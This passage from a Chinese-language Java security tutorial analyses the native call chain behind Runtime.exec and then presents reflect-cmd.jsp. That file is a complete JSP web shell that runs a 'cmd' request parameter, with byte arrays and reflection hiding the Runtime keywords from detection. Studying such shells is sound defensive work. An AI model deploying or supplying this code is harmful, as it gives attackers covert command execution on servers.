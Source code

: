 通过观察整个调用链我们可以清楚的看到`exec`方法并不是命令执行的最终点，执行逻辑大致是：

1. `Runtime.exec(xxx)`
2. `java.lang.ProcessBuilder.start()`
3. `new java.lang.UNIXProcess(xxx)`
4. `UNIXProcess`构造方法中调用了`forkAndExec(xxx)` native方法。
5. `forkAndExec`调用操作系统级别`fork`->`exec`(*nix)/`CreateProcess`(Windows)执行命令并返回`fork`/`CreateProcess`的`PID`。

有了以上的调用链分析我们就可以深刻的理解到Java本地命令执行的深入逻辑了，切记`Runtime`和`ProcessBuilder`并不是程序的最终执行点!

### JSP反射Runtime类命令执行

如果我们不希望在代码中出现和`Runtime`相关的关键字，我们可以全部用反射代替。

#### reflect-cmd.jsp

```java
<%@ page contentType="text/html;charset=UTF-8" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %>

<%
    //定义request接收的参数
    String str = request.getParameter("cmd");

    //定义"java.lang.Runtime"字节变量，隐藏Runtime关键字
    String rt = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101});

    //反射获取Runtime类对象
    Class<?> clazz = Class.forName(rt);

    //反射获取getRuntime方法
    Method method_getRuntime = clazz.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));

    //反射获取exec方法
    Method method_exec = clazz.getMethod(new String(new byte[]{101, 120, 101, 99}),String.class);

    //反射调用Runtime.getRuntime.exec()方法
    //Object object_getRuntime = method_getRuntime.invoke(null);
    //Object object_exec = method_exec.invoke(object_getRuntime, str);
    Object object = method_exec.invoke(method_getRuntime.invoke(null), str);

    //反射获取Process类的getInputStream方法
    Method method_getInputStream = object.getClass().getMethod(new String(new byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
    method_getInputStream.setAccessible(true);

    //获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
    Scanner scanner = new Scanner((InputStream) method_getInputStream.invoke(object, new Object[]{})).useDelimiter("\\A");
    String result = scanner.hasNext() ? scanner.next() : "";

    out.write(result);
%>
```
